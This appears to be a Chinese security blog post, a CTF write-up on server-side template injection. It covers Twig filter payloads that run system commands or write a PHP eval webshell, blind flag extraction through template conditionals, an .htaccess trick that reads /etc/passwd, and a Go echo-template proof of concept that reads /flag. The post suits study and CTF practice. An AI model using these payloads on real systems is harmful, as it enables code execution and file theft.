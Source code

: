 

# 浅谈模板语法的一些共性和 GoLang 模板的一些机制 - 先知社区

浅谈模板语法的一些共性和 GoLang 模板的一些机制

- - -

### Background

翻了下自己的收藏发现有很多模板注入相关的记录，于是拿出一些共性来分析下，而 GoLang 是相对非常安全的语言，除了过时的库以外，现在唯一的可以玩的地方就是 SSTI，我在做相关的 CTF 题时候，发现了一些有趣的玩法

### 模板语法的一些共性

#### 解析头

近几年在关注一些 CTF 中，我发现了一些比较有趣的事情，比如某些语法是具有通用性的

首先都会有一些解析的符号标识 比如{{}} {% %} 有的时候就会在这里作文章。比如我以前在 wolvesec ctf 中提到一个 chunk-templates 的模板

[![](assets/1708920211-9e3a39bf3be7dd3a0b787cd0d3039f31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013023-bc326cee-cb5e-1.png)

这里我们搜索相关文档的时候，可以发现$就是他解析的标识 但是

[![](assets/1708920211-282dc3f98015849bf8a9daebe84b5795.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013037-c40cf5c4-cb5e-1.png)

在这道题目里面$被 ban 掉了 但你打断点跟进模板解析的时候会发现

[![](assets/1708920211-4696d8dfd7e2bcd8feb530205b389dcb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013048-cb1a6d4c-cb5e-1.png)

~同样可以作为模板解析的字符 所以你在关注解析引擎的时候一定要看完整的解析过程，多读代码

#### 某些函数

除了这个之外还有一些有意思的是有些语法支持函数调用，同样我在先知发过一篇高版本模板注入 tricks 提到了 Twig 模板

```bash
{{["id"]|map("system")}}
{{{"<?php phpinfo();eval($_POST[1])":"/var/www/html/1.php"}|map("file_put_contents")}}    
{{["id", 0]|sort("system")}}
{{["id"]|filter("system")}}
{{[0, 0]|reduce("system", "id")}}
```

支持以 | 形式的函数调用

我们刚才提到的这个 chunk-template 很显然也支持这种类似的调用方法

```bash
{.{%24flag%7d|urldecode()}
```

#### 语法

每个模板也都有很多常见的语法 比如 if

```bash
{% if ($weather) %}
 {% if ($weather == sunny) %}
  {% include #picture_of_sun %}
 {% elseIf ($weather == rainy)  %}
  {% include #picture_of_rain %}
 {% elseIf ($weather =~ /snowy|flurries/) %}
  {% include #picture_of_snow %}
 {% elseIf ($weather == $weather_in_philly) %}
  {% include #always_sunny %}
 {% else %}
  {% include #default_picture %}
 {% endif %}
{% endif %}
```

支持类似这样的调用，这个给了我们一些思路，比如在某些情况下，我们可不可以通过盲注的手法，来获取一些东西呢？

答案肯定是可以的

比如在上面说的那道题里

```bash
{{% if(flag=~/^{re.escape(tmp)}/) %}}{test}{{% endif %}}
```

如果监测到 test 就继续加入一直重复下去就好

在模板之外，也有类似的东西 在曾经某个比赛中一道文件上传的题 本意考察.htaccess 的 rce 利用方式，但是在 wupco 老师的 wp 里给了我们一个耳目一新的新解法

他说 在.htaccess 里其实也支持 if 类似的匹配，而且还有一个神奇的函数 file

可以进行读取文件，但是比较麻烦的一点在于，怎么判断匹配正确与否呢？

wupco 老师 定义了一个 ErrorDocument 是 404 这样如果报错 就可以在一个 404 网页看到他定义的 wupco 字符串，真是一个天才的思路

```bash
<If "file('/etc/passwd')=~ /root/">
ErrorDocument 404 "wupco"
</If>
```

### GoLang 模板注入的一些机制

某道题目里的大致代码如下

```bash
func templateMiddleware(next echo.HandlerFunc) echo.HandlerFunc {
    return func(c echo.Context) error {
        file, err := os.Open("./template.html")
        if err != nil {
            return err
        }
        stat, err := file.Stat()
        if err != nil {
            return err
        }
        buf := make([]byte, stat.Size())
        _, err = file.Read(buf)
        if err != nil {
            return err
        }

        userTemplate := c.Request().Header.Get("Template")

        if userTemplate != "" {
            buf = []byte(userTemplate)
        }

        c.Set("template", buf)
        return next(c)
    }
}

func handleIndex(c echo.Context) error {
    tmpl, ok := c.Get("template").([]byte)

    if !ok {
        return fmt.Errorf("failed to get template")
    }

    tmplStr := string(tmpl)
    t, err := template.New("page").Parse(tmplStr)
    if err != nil {
        return c.String(http.StatusInternalServerError, err.Error())
    }

    buf := new(bytes.Buffer)

    if err := t.Execute(buf, c); err != nil {
        return c.String(http.StatusInternalServerError, err.Error())
    }

    return c.HTML(http.StatusOK, buf.String())
}

func main() {
    e := echo.New()

    e.Use(middleware.Logger())
    e.Use(middleware.Recover())

    e.GET("/", handleIndex, templateMiddleware)

    e.Logger.Fatal(e.Start(":3001"))
}
```

我们可以很容易看见这个需要我们在 template 传模板 想到直接调用 File 就好了

```bash
{{ .File "/flag" }}
```

但是其实他做了一层 proxy

```bash
if (/flag\{.*\}/.test(data)) {
          return reply.code(403).send("??");
        }
```

不允许出现 flag 字样 我翻阅了一些相关资料 发现

```bash
{{ .Echo.Filesystem.Open "/etc/passwd" }}
```

我们可以通过这样的方式来打开文件 但是他返回的值是[`fs.File`](https://pkg.go.dev/io/fs#File)

[![](assets/1708920211-a7f5e6d179235a69784317ee337c8394.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013101-d2bab246-cb5e-1.png)

但是他有一个 Read 函数 但是传入的是个数组 开心的是

```bash
if userTemplate != "" {
            buf = []byte(userTemplate)
        }
```

本身模板就是数组

所以我们可以

1.  `{{ $a := .Get "template" }}`
2.  `{{ $b := .Echo.FileSystem.Open "/flag" }}`
3.  `{{ $c := $b.Read $a }}`
4.  `{{ $a }}`

就可以了，最后获得的结果是 byte\[\]转换一下就好了

那有没有别的思路呢？

因为他只针对匹配了一个 flag 的头，根据我们以前的思路 还是可以寻找一些查找相关的方法 如何清洗掉

找到了一个 os.File 中的 Seek 方法，那便移掉四位头其实就可以了

[![](assets/1708920211-84758d7f6aa988aada363309f0f03d53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215013113-d97a59b0-cb5e-1.png)

而且我发现了个 echo.Context 接下来的结构体

```bash
func (c *context) Stream(code int, contentType string, r io.Reader) (err error) {
    c.writeContentType(contentType)
    c.response.WriteHeader(code)
    _, err = io.Copy(c.response, r)
    return
}
```

Stream 打开的文件会被复制和响应，而且可以自定义 ContentType 头，那我们还可以省一步转 byte

poc 如下

```bash
{{ $f :=  .Echo.Filesystem.Open "/flag" }} {{ $f.Seek 4 0 }} {{ .Stream 200 "text/html" $f }}
```

### 总结

模板语言的特性和一些语法有很多，在实际使用中，可以更多的关注文档和 IDE，比如一个好的找 Golang 结构体的方法，就是通过 Vscode 查找。
